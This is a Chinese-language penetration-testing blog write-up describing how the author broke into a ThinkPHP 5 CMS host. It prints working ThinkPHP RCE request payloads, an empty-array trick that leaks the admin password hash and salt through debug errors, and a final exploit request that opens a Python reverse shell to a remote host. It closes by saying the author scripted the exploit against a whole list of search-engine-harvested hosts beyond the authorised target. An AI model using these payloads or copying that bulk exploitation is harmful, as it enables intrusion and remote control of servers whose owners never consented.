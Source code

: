 ```yaml
---
layout: post
title: "串联脆弱点实现外部打点"
tags: [Pentest, Hacking, Tricks]
comments: true
---
```


# 记录一次实战肾透

## 前言

> [#] Author: xxxeyJ
> [#] Blog: https://tricksongs.com/

前段时间 homie 传给我一个授权项目，希望空了能帮忙看下，拿下目标的过程蛮曲折的，在这里记录一下 `心路历程`，由于打点时部分图片忘记保存，导致文章可能存在 `断层`，见谅；

## 肾透过程

目标是一个 IP 资产，主体服务运行在 `80` 端口上，由于是 IP 资产，且通过各种渠道无法逆推出其域名后 (很可能压根就没有域名解析到此IP) ，然后就打消掉了子域收集的念头，之后就是一套常规操作，端口扫描，对症下药；

## 信息收集

```
1.1.1.1:22	SSH服务	OpenSSH7.4protocol 2.0
1.1.1.1:888	Web服务	Nginx 中间件
1.1.1.1:3306	MySQL服务	MySQL5.7.29-log
1.1.1.1:80	Web服务	Nginx 中间件 反向代理
1.1.1.1:8888	Web服务	Ajenti HTTP Control Panel
```
`22` 端口和 `3306` 端口一般来说没什么好看的，基本无解，主要看一下3个基于 Web服务的端口:  `80`、`888` 、`8888`;

## 探索脆弱点

访问 80 端口重定向到了一个登陆页面，在 `http://1.1.1.1/` 后面随便添加一点垃圾数据, 直接爆出了 ThinkPHP 异常页面，目标启用了调试模式 (debug) 泄露了 ThinkPHP 版本号为 5.12，PHP 版本为 7.3，基于 ThinkPHP 框架二开的 CMS ；

检索了一下网络上的信息，发现关于此 CMS 的内容特别少，近乎没有，通过 FOFA、Zoomeye、SuMap、Quake 等网络空间搜索引擎检索目标资产特征，打算先搞到一份 CMS 的源码再进行下一步行动，结果事与愿违，抓下来的资产列表没有一个资产泄露CMS源码；

ThinkPHP 报错泄露了 Web 目录于 Linux 操作系统中的绝对路径:	`/www/wwwroot/1.1.1.1/`，基本信息差不多就这些，ThinkPHP Version <= 5.23 存在一个 `RCE` ，先朝目标怼了一波 Payload，最后的结果只有这一个 Payload 是可以执行的，原因很简单，有的 Payload 是因为不支持 GET 请求方法，还有的 Payload 无法执行是因为更改了路由，`think` 路由下的模块及日志文件均无法使用，然后就是目标禁用了N个`危险函数`，`Disable_functions` 列表如下: 

```
passthru,system,putenv,chroot,chgrp,chown,shell_exec,popen,proc_open,pcntl_exec,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,imap_open,apache_setenv
```

看到这个列表蛮头疼的，但是发现好在没有禁用掉 assert 以及 file_put_contents 函数，于是尝试构造 Payload Getshell，但还是因为 PHP 版本过高不支持动态调用便无法 Getshell；

```
POST /

s=file_put_contents('info.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```

当前仅可执行如下 Payload;

```
POST /

_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
```

由于目前无法通过 TP5 RCE 的途径 `Getshell`，于是开始尝试审计一下目标的功能点，首先是登录功能，截断一下发起的登录请求，经过测试发现，验证码 `可复用`，不过我并不打算尝试跑字典，这种方式太过无脑而且动静太大，性价比极低，除非万不得已，否则我一般不会走跑字典这条路子；

```
POST /user/index/login HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close

username=admin&password=admin&verify=3523
```

就在这时，我想到了之前和某师傅交流过 ThinkPHP 5.0.X 的一个小 `tricks`，在目标启用了 debug 模式下并通过敏感功能点传递空数组时可能会引起程序异常从而导致敏感信息泄露；

```
POST /user/index/login HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/80.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Connection: close

username=admin&password[]=&verify=5784
```

成功在 `Error Context` 栏目中拿到管理员的 `Password + Salt` 字段；

![](https://tricksongs.com/images/Hacking_Time/1.jpg)

MD5 解密后顺利登录后台面板，在后台操作的过程中有个功能点与后端产生了数据交互，于是构造一下 `空数组` 直接异常，看到源码之后，芜湖，原地起飞，就贼离谱，直接把 `凭据硬编码` 了，任意一个用户拿着这个密码都可以直接登录面板；

![](https://tricksongs.com/images/Hacking_Time/2.jpg)

后台的功能点蛮多的，但是各个上传点都做了白名单等安全限制，无法 Getshell，蛮遗憾的；

后面由于无法在 80 端口有所突破 ，于是又转到 8888 端口和 888 端口上面，8888 端口的首页是一个宝塔面板的禁止公网访问的提示；

![](https://tricksongs.com/images/Hacking_Time/3.PNG)

看到宝塔和 888 端口，就想起来前段时间的 `phpMyAdmin` 面板未授权访问漏洞，于是构造一下路径 `http://1.1.1.1:888/pma`，尝试访问提示不存在此路径，不巧，看来目标所使用的版本没有此漏洞，想到团队里面有开发宝塔产品的师傅，于是问了一嘴目前有没有宝塔 `前台RCE`，师傅说目前没有，墙裂建议下个版本可以安排一个团队专享版 `RCE` (狗头保命)；

![](https://tricksongs.com/images/Hacking_Time/4.PNG)

然后又对 888 端口和 8888 端口跑了一波字典，没有发现什么有价值的端点，而后又转到 80 端口上面来，先对 80 端口跑了一波字典，跑出来个 install 路径，于是打算尝试一下是否可以利用 `MySQL 文件读取漏洞` 读取目标机的敏感文件，首先判断一下目标程序是否可以对外发起请求，在 VPS 上面使用 nc 监听 3306 端口，然后使用 install 程序连接我的 VPS，发出请求后，VPS 成功接收到了来自目标主机的请求，顿时感觉有戏，于是部署了一下 `Rogue MySQL Server`，本来以为基本上可以结束掉游戏的时候，却突然发现目标禁用掉了MySQL 读取本地文件的功能；

## 收尾工作

当我回过头去看 `Disable_functions` 列表的时候，突然发现目标竟然没有禁用 `exec` ，之前竟然没有发现，我大意了啊，调试了一下 Payload，直接 RCE，然后写了个脚本批量跑了一下之前收集到的资产列表，收工结束；

```
POST /

_method=__construct&filter[]=exec&method=get&server[REWQUEST_METHOD]=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("2.2.2.2",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## END

A.K.A 穿主流装喝骨头汤的斧头帮的楚留香在熬夜写文章

`Respect`
